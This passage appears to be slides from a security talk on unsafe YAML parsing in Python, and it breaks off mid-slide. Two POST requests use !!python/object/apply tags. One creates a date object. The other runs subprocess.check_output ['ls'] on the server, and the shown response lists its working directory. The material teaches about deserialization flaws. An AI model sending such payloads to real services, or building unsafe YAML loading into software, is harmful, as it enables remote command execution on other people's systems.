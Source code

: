 ### POST /yaml 

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@catalyst.net.nz
'birthday': !!python/object/apply:datetime.date [1980, 1, 1]
``` 

### RESPONSE 

```py 
{'email_address': 'tom@catalyst.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman',
'birthday': datetime.date(1980, 1, 1)}
``` 

Note: 

Here's we're doing something much more clever -- we're instantiating an instance of a Python date class.

The YAML Parser finds the datetime module and instances a 'date' using the arguments provided.

Did a shiver go down anyone's spine?

---

### ... hmm, what else can we do ... 

---

## Parsing YAML 

### POST /yaml 

```yaml 
'first_name': Tom
'last_name': Eastman
'email_address': tom@catalyst.net.nz
'contents_of_cwd': !!python/object/apply:subprocess.check_output ['ls']
``` 

### RESPONSE 

```py 
{'email_address': 'tom@catalyst.net.nz',
'first_name': 'Tom',
'last_name': 'Eastman',
'contents_of_cwd': 'badservice.py\nbadservice.py~\nbob.yaml\nbob.yaml~\nthousandlaughs.xml\nxxe_1.xml\n'}
``` 

Note: 
